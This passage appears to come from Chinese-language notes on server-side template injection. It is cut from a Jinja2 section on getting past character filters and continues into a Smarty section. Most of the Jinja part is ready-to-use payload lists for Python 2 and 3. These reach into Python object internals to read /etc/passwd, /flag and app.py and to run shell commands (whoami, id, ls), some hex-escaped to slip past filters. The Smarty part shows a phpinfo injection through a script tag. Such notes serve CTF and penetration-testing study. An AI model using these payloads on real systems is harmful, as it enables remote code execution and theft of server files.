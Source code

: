  {%set udl=dict(a=pc,c=c).values()|join %}      # uld=%c
  {%set i1=dict(a=i1,c=udl%(99)).values()|join %}
- #### (7)+等被过滤，无法拼接字符串
  
  * `~`  
  在jinja中可以拼接字符串
  * 格式化字符串  
  同上
- ### payload
  
  python2
  ```
    {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}  
    {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
    {{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
    {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}
    {{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
  ```
  python3
  ```
    {{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('/flag').read()}}
    {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}
  ```
  不用找类  
  `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}`
  
  以上思路都是找os，也可以找`__builtins__.eval`
- # Smarty
  ------
  
  以下内容出自[Smarty SSTI](https://www.jianshu.com/p/eb8d0137a7d3)
- ### 1、`{php}{/php}`
  
  Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用
- ### 2、`{literal}`
  
  {literal}可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。
  
  那么对于php5的环境我们就可以使用
  
  `<script language="php">phpinfo();</script>`
- ### 3、`{if}`
  
  Smarty的{if}条件判断和PHP的if 非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用，如_||_,or,&&,and,is\_array(), 等等
  